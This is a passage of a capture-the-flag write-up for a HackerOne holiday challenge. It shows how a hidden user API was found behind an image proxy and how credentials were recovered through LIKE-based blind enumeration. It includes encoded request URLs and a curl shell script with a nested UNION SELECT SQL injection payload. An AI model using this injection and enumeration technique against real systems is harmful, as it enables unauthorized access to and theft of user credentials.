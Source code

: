 The script can be run via:  `cat wordlist.txt | script.sh`

We find two endpoints observing the different responses given by the server:

- ping
- user

While testing the `user` endpoint we notice two different responses for 

- `user?xxx=1`
- `user?username=x`

```
user?xxx=1: /r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/eHh4PTEiLCJhdXRoIjoiY2FhNzlmNjdiZDZlZDlmOGE5MGI4NjJjOGZmY2RkMGIifQ==
Expected HTTP status 200, Received: 400

user?username=x: /r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/dXNlcm5hbWU9eCIsImF1dGgiOiI2ZDRhZDg4NTRmNzk5ZTI0NmZmZTEwZTZiZGFkYjE2YiJ9
Expected HTTP status 200, Received: 204
```

This means that user endpoint expects a username parameter, and later on we also find a password paramter.

But now what? Key observation was that by inserting a `%` as username we have again  different response:

```
user?username=%: /r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/dXNlcm5hbWU9JSIsImF1dGgiOiIzYjZkNmVmOGRkN2JiNzUxZmI1ZTIwMDJhOGRhZDdhMSJ9
Invalid content type detected
```

This is working but the server does not return a valid image as expected by the caller.

This probably means that username paramter is inserted in a query like

	username LIKE '$username'

This mean we are not able to extract data directly but we should be able to enumerate one character at a time:

	username=a%
	username=b%
	...
	username=g%
	
At `g%` we get a diffrrent response (Invalid content type) so maybe...

	username=gr%
	username=gri%
	
This can be scripted with something like this:

```
#!/bin/sh

start=$1
for word in a b c d e f g h i j k l m n o p q r s t u v w x y z 0 1 2 3 4 5 6 7 8 9; do
/bin/echo -n "$word: "
path=$(/bin/echo -n "../api/user?pass=$start$word%" |xxd -p | tr -d '\n')
echo path: ${path}
picurl=$(curl https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album\?hash=\'+UNION+ALL+SELECT+\"-1\'+union+all+select+NULL,NULL,0x${path}--+-\",2,3--+- -s|grep data= |sed 's/^.*src="\([^"]*\)">/\1/')
echo $picurl

curl -s "https://hackyholidays.h1ctf.com$picurl"  | grep -i invalid
echo
done
```
